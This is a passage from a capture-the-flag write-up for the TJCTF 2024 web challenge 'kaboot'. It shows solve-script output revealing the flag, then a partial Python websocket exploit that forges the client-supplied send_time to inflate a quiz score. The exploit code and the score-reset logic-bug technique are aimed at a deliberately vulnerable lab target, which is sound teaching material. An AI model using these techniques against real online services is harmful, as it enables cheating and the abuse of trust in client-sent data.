 ```shell
┌[siunam♥Mercury]-(~/ctf/TJCTF-2024/web/kaboot)-[2024.05.20|15:09:46(HKT)]
└> python3 solve_logic_bug.py
[*] Attempt 1...
[-] Current score is <= 10000
[*] Attempt 2...
[+] Current score is >= 10000. Here's the flag: tjctf{t00_sw1ft_f0r_y0u_b0iiiiii_2cfdfa7a}
```

Nice! We successfully exploited the reset score logic bug to gain more than `9999` score! 

- **Flag: `tjctf{t00_sw1ft_f0r_y0u_b0iiiiii_2cfdfa7a}`**

### Race Condition in `send_time` Check

**We can also exploit the race condition in the client's `send_time` condition via this Python solve script:**
```python
import websockets
import asyncio
import json
import base64
import time
import re

allScores = list()

async def exploit(url, raceWindow):
    QUESTION_LENGTH = 10
    LOCAL_FLAG_FORMAT = r'(flag\{[ -z|~]+\})'
    FLAG_FORMAT = r'(tjctf\{[ -z|~]+\})'
    try:
        async with websockets.connect(url) as websocket:
            message = await websocket.recv() # room's title name message

            for i in range(QUESTION_LENGTH):
                message = await websocket.recv() # question and answer information message
                question = json.loads(base64.b64decode(message).decode())
                if i != 0:
                    LastKnownScore = question['scores'][-1][2]
                    print(f'[*] Last known score: {LastKnownScore}')
                if 'message' in question and question['message'] == '???':
                    print('[-] You\'re sending too fast! Adjust the race window to a *lower* value!')
                    return

                answer = question['answer']
                ID = '1'
                sendTime = time.time() + raceWindow

                encodedMessage = base64.b64encode('{{"id":"{0}","answer":{1},"send_time":{2}}}'.format(ID, answer, sendTime).encode())
                await websocket.send(encodedMessage)

            message = await websocket.recv() # final answer's information
            finalMessage = json.loads(base64.b64decode(message).decode())
            finalScore = finalMessage['scores'][-1][2]
            print(f'[*] Final score: {finalScore}')
            allScores.append(finalScore)
            
            if finalMessage['message'] == '???':
                print('[-] You\'re sending too fast! Adjust the race window to a *lower* value!')
            elif finalMessage['message'] == 'sucks to suck brooooooooo':
                print('[-] Current score is <= 10000. Adjust the race window to a *higher* value!')
            elif 'omg congrats' in finalMessage['message']:
```